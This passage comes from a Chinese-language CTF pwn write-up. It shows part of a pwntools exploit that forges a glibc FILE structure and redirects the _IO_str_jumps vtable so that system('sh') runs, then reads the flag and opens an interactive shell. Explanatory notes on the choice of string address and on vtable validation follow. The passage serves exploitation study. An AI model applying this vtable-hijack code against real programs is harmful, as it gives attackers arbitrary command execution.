    ```py
   # _IO_buf_end
   payload+= p64(sh_addr)
   payload = payload.ljust(0xe8,b"\x00")
   # vtable->_IO_str_jumps   _allocate_buffer->system_addr
   payload+= p64(_IO_str_jumps_addr - 0x8) + p64(0) + p64(system_addr)
   edit(payload)
   
   p.sendlineafter(b':',b'1')
   p.sendlineafter(b'it',str(0x10).encode())
   p.sendline(b"cat flag")
   p.interactive()
   ```
   
   关键部分，伪造的fake_chunk:
   
   法二，这里要注意，由于 字符串"/bin/sh"的地址是一个奇数，所以使用**完整的"/bin/sh"不可行**，会导致参数传递不完整，**只能使用字符串"sh"的地址**：
   
   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212159820.png" alt="image-20240821215916641" style="zoom:50%;" />
   
   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212202453.png" alt="image-20240821220227269" style="zoom: 33%;" />
   
   
   
   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212152010.png" alt="image-20240821215215843" style="zoom:33%;" />
   
   
   
   法三：
   
   ![image-20240821215354675](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212153829.png)
   
   都是能打通的：
   
   ![image-20240821214612285](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212146427.png)
   
   ![image-20240821214727566](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212147693.png)
   
2. 另外，添加部分**vtable判断的调试源码 **：

   计算vtable段的长度，查看_IO_str_jumps相对头部的偏移==>0xc00：

   ![image-20240822163117022](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408221631321.png)

   IO_validate_vtable检查_IO_str_jumps是否在段内：

   ![image-20240822163458969](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408221634166.png)

